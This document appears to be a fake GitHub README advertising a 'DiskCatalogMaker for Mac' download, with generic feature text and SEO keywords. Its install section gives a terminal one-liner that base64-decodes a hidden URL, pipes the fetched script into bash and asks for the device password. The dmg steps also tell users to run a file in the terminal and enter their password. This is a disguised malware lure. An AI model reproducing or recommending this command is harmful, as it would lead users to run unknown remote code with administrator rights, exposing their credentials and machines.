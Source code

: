 # DiskCatalogMaker Mac Download
![DiskCatalogMaker Screenshot 1](https://diskcatalogmaker.com/images/icon512.png)

---

[![Download Now](https://img.shields.io/badge/Download--Now-DiskCatalogMaker%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/diskcatalogmaker)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is DiskCatalogMaker for Mac?

DiskCatalogMaker for Mac is a professional-grade disk cataloging tool built specifically for macOS users who need to manage large libraries of files stored across various drives, disks, or external storage media. Whether you archive data to CDs, DVDs, USB drives, or network volumes, DiskCatalogMaker makes it easy to catalog, browse, and search everything without needing the physical media connected.

The application scans your media and stores an organized catalog that includes folder structures, file names, sizes, creation dates, and other metadata. It supports searching by keyword, filtering results, and even previewing thumbnails of images or documents. This makes it ideal for photographers, editors, archivists, or anyone who regularly works with massive file archives.

Its clean macOS-native interface integrates well with Finder, and catalog files are lightweight and easy to share. DiskCatalogMaker also supports incremental updates, CD-TEXT, and Spotlight integration, giving you more control and speed when managing data at scale.

![DiskCatalogMaker UI](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSifzASnTP-daWK1aRRsiSrnhC8g7xQUbquNw&s)

---

## 🌟 Key Features & Benefits

- 💽 Catalog External Drives — Archive content from CDs, DVDs, USBs, and more  
- 🔍 Fast File Search — Find any file without reconnecting your external storage  
- 📁 Organized Catalogs — Browse folder structures and file metadata  
- 📸 Thumbnail Support — Preview images and documents before opening  
- ⚡ Incremental Scans — Update existing catalogs quickly and easily  
- 🔄 Spotlight Integration — Search catalogs via macOS native tools  
- 🖥️ macOS Native App — Seamlessly integrates with your Mac environment  
- 🚀 Lightweight & Efficient — Fast performance and small catalog sizes  

---

## 🖥️ System Requirements

- macOS 10.13 High Sierra or later  
- Intel or Apple Silicon (M1/M2/M3) processor  
- 4 GB RAM minimum  
- ~30 MB disk space  

---

## 🏷️ Keywords

diskcatalogmaker mac, diskcatalogmaker for mac, diskcatalogmaker macos, diskcatalogmaker free
